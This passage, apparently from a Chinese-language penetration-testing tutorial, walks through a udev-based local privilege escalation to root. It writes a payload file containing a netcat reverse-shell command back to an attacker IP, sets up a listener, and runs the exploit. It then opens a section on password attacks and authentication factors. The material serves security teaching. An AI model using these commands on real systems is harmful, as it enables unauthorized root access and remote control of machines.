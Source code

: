 您还可以通过发出以下命令来获取`udev`服务的 PID，即`1`：

```
ps aux | grep udev
```

以下命令行截图是前面命令的结果：

![](img/161d8c29-c038-4bbe-9f59-81a642284182.png)

在真实的渗透测试过程中，您可能希望设置一个具有与目标相同内核版本的测试机器来测试利用程序。

根据我们对受害者机器的信息收集，我们知道这台机器安装了 Netcat。一旦利用运行，我们将使用 Netcat 连接回我们的机器，以便给我们 root 访问权限。根据利用源代码信息，我们需要将有效载荷保存在一个名为`run`的文件中：

```
echo '#!/bin/bash' > run echo '/bin/netcat -e /bin/bash 172.16.43.150 31337' >> run
```

我们还需要通过发出以下命令在攻击机器上启动 Netcat 监听器：

```
nc -vv -l -p 31337
```

唯一剩下的事情就是使用所需的参数运行利用程序：

```
./8512.c 2675
```

在我们的攻击机器上，我们可以看到以下消息：

![](img/f178e1ca-9f8c-46dc-86da-db2de856fa83.png)

在发出`whoami`命令后，我们可以看到我们已成功将特权提升为 root。

# 密码攻击工具

目前密码被用作认证用户登录系统的主要方法。用户提交正确的用户名和密码后，系统将允许用户登录并根据该用户名的授权访问其功能。

以下三个因素可以用来对认证类型进行分类：

+   **你知道的东西**：这通常被称为认证的第一因素。密码属于这种类型。理论上，这个因素应该只有被授权的人知道。但在现实中，这个因素很容易泄露或被捕获；因此不建议使用这种方法对用户进行敏感系统的认证。

+   **你拥有的东西**：这通常被称为认证的第二因素，这个因素的例子包括安全令牌和卡片。在您向系统证明您拥有认证因素之后，您将被允许登录。这个因素的缺点是容易被克隆。

+   **你是的东西**：这通常被称为认证的第三因素，例如生物识别和视网膜扫描。这个因素是最安全的，但已经有几种已公开的攻击针对这个因素。
